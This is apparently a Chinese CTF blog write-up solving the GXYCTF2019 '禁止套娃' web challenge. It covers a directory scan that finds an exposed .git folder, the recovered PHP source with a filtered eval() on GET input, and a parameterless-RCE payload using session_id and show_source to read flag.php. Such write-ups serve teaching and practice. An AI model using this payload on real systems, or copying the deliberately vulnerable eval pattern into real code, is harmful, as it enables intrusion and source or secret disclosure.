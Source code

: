 ```yaml
---
title: GXYCTF2019-web
date: 2020-04-26 15:52:11
updated: 2020-04-26 15:52:11
tags:
 - ctf
 - web
 - 刷题
 - gxyctf2019
categories:
 - 刷题记录
---
```


# web

## 禁止套娃

扫描目录发现git泄露

```
---- Scanning URL: http://3dead3dc-5858-4353-a9a9-58652f60a1a2.node3.buuoj.cn/ ----
==> DIRECTORY: http://3dead3dc-5858-4353-a9a9-58652f60a1a2.node3.buuoj.cn/.git/
+ http://3dead3dc-5858-4353-a9a9-58652f60a1a2.node3.buuoj.cn/flag.php (CODE:200|SIZE:0)
+ http://3dead3dc-5858-4353-a9a9-58652f60a1a2.node3.buuoj.cn/.git/index (CODE:200|SIZE:137)
+ http://3dead3dc-5858-4353-a9a9-58652f60a1a2.node3.buuoj.cn/.git/config (CODE:200|SIZE:92)
+ http://3dead3dc-5858-4353-a9a9-58652f60a1a2.node3.buuoj.cn/.git/ (CODE:403|SIZE:571)
```

使用githack复原代码得到

 ```php
//index.php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
 ```

第二个正则不大能看懂，于是百度一下得到考点：**无参数rec**  skysec师傅的[文章](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/)介绍得很详细

>能执行a(b()),a()之类的函数，a("1"),这样就不行。

看完skysec师傅的文章后知道了第二个正则匹配的的意思

 第一个正则的意思payload是不能使用包含下列字符串的伪协议

```
data://,php://,phar://,filter://
```

第三个也是payload不能包含下列字符串 

```
et|na|info|dec|bin|hex|oct|pi|log
```

使用session_id进行无参数rce，

过滤了et，不能使用file_get_contents,之类的函数，但是可以使用highlight_file、show_source

payload

```
exp=show_source(session_id(session_start()));
```

修改cookie中PHPSESSID=flag.php

访问即可拿到flag


